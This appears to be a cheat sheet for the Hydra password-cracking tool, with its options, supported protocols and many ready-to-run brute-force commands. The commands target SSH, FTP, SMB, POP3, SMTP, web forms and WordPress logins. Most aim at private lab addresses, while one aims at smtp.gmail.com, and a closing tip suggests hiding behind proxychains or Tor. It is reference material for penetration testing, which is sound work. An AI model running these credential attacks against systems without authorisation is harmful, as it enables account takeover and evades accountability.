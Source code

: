# Hydra

Hydra is an open-source, fast, and flexible brute-force password cracking tool. It is widely used by penetration testers, red teams, and ethical hackers to test password security for various remote authentication services.

## Purpose of Hydra
Hydra is designed to perform brute-force attacks on remote authentication services. It attempts multiple combinations of usernames and passwords against a target to find valid credentials.
Key Use Cases:
- Identify weak or common passwords
- Test authentication security across services
- Support for a wide range of protocols (e.g., SSH, FTP, HTTP)
- Custom wordlists for targeted attacks
- Fast performance with parallel threads

## Basic Syntax
```bash
hydra [OPTIONS] -L <userlist> -P <passlist> <TARGET> <PROTOCOL>
```
-L users.txt	File with usernames (each line = 1 user)
-P passwords.txt	File with passwords to try
<TARGET>	IP or hostname of the target
<PROTOCOL>	Service to attack (e.g., ssh, ftp, http-get)


### Target Specification
| Option          | Description                                                    |
| --------------- | -------------------------------------------------------------- |
| `-l <login>`    | Use a single login name (e.g., `admin`)                    |
| `-L <file>`     | Use a list of usernames from file                          |
| `-p <password>` | Use a single password                                      |
| `-P <file>`     | Use a list of passwords from file                          |
| `-C <file>`     | Use a combo file** (format: `username:password`)             |
| `-M <file>`     | Use a list of target IPs from file                         |
| `-t <tasks>`    | Number of parallel tasks (default: 16)                     |
| `-s <port>`     | Custom port number                                         |
| `-S`            | Use SSL connection                                         |
| `-v / -V / -d`  | Verbose output (`-v`: normal, `-V`: very verbose, `-d`: debug) |
| `-f`            | Exit after first valid login found                             |
| `-o <file>`     | Save output to file                                            |
| `-u`            | Loop around users, not passwords (useful for SMTP, etc.)       |
| `-x`            | Generate passwords automatically (see below)                   |

### Advanced Options
| Option         | Description     |
| -------------- | --------------- |
| `-e nsr`       | Try **n**one, **s**ame as login, and **r**everse of login as password |
| `-R`           | Restore a previously saved session (`./hydra.restore`)  |
| `-I`           | Ignore restore file      |
| `-w <timeout>` | Set timeout (in seconds)           |
| `-W <wait>`    | Wait time between login attempts      |
| `-O`           | Use old SSL (useful for legacy systems)    |
| `-4`           | Force IPv4               |
| `-6`           | Force IPv6              |


### Example Protocols Hydra Supports
```bash
hydra -L users.txt -P pass.txt 192.168.1.4 ftp
hydra -l root -P rockyou.txt ssh://192.168.1.4
hydra -L logins.txt -P passwords.txt -s 8080 192.168.1.4 http-get /admin
hydra -l admin -P pass.txt 192.168.1.4 mysql
hydra -L users.txt -P pass.txt smtp.gmail.com smtp
```

| Protocol   | Hydra keyword |
| ---------- | ------------- |
| FTP        | `ftp`         |
| SSH        | `ssh`         |
| Telnet     | `telnet`      |
| HTTP GET   | `http-get`    |
| HTTP POST  | `http-post`   |
| HTTPS GET  | `https-get`   |
| HTTPS POST | `https-post`  |
| MySQL      | `mysql`       |
| RDP        | `rdp`         |
| VNC        | `vnc`         |
| SMB        | `smb`         |
| SNMP       | `snmp`        |
| POP3       | `pop3`        |
| IMAP       | `imap`        |
| LDAP       | `ldap`        |
| MSSQL      | `mssql`       |
| Redis      | `redis`       |
| PostgreSQL | `postgres`    |
| Teamspeak  | `teamspeak`   |
Use hydra -U to see all available modules installed in your version.

## Common Usage Examples
1. Brute-force FTP login
```bash
hydra -L users.txt -P passwords.txt ftp://192.168.1.4
```
2. SSH with single username and password list
```bash
hydra -l root -P pass.txt ssh://192.168.1.4
```
3. HTTP POST login page (custom request)
```bash
hydra -L users.txt -P pass.txt 192.168.1.4 http-post-form "/login.php:user=^USER^&pass=^PASS^:F=Login Failed"
```

## SSH
```bash
hydra -l root -P passwords.txt ssh://192.168.1.5
```
Brute-force SSH using root username and a list of passwords.
```bash
hydra -L users.txt -P passwords.txt ssh://192.168.1.4 -t 4 -V
```
Brute-force SSH using a list of users and passwords.
```bash
hydra -v -V -u -L users.txt -p "" -t 1 -u 192.168.1.4 ssh
```
SSH brute-force using empty password and user list (test for blank passwords).
## FTP
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt -vV 192.168.1.4 ftp
```
FTP brute-force attack using a known username and wordlist.
## POP3 / SMTP
```bash
hydra -l USERNAME -P /usr/share/wordlists/nmap.lst -f -V 192.168.1.5 pop3
```
POP3 brute-force attack using username and password list.
```bash
hydra -P /usr/share/wordlists/nmap.lst 192.168.1.5 smtp -V
```
SMTP brute-force attack using password list.
## SMB
```bash
hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt 192.168.1.5 smb
```
SMB brute-force attack with rockyou wordlist.
## HTTP-GET (Web Login)
```bash
hydra -L webapp.txt -P webapp.txt 192.168.1.5 http-get /admin
```
HTTP GET login brute-force (basic directory).
## Wordpress Login
```bash
hydra -l admin -P ./passwordlist.txt 192.168.1.5 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'
```
Wordpress admin login brute-force.
##  HTTP Basic Auth
```bash
hydra -L users.txt -P passwords.txt 192.168.1.5 http-get /
```
Basic authentication brute-force.
## SNMP
```bash
hydra -P password-file.txt -v 192.168.1.5 snmp
```
SNMP brute-force using password list.



### Hydra Module Help
```bash
hydra -U
or
man hydra
```


- Use -f to stop once a valid password is found.
- Use -o output.txt to log successful credentials.
- Use with proxychains if routing through proxy/Tor.
- Combine with nmap for service discovery before launching Hydra.


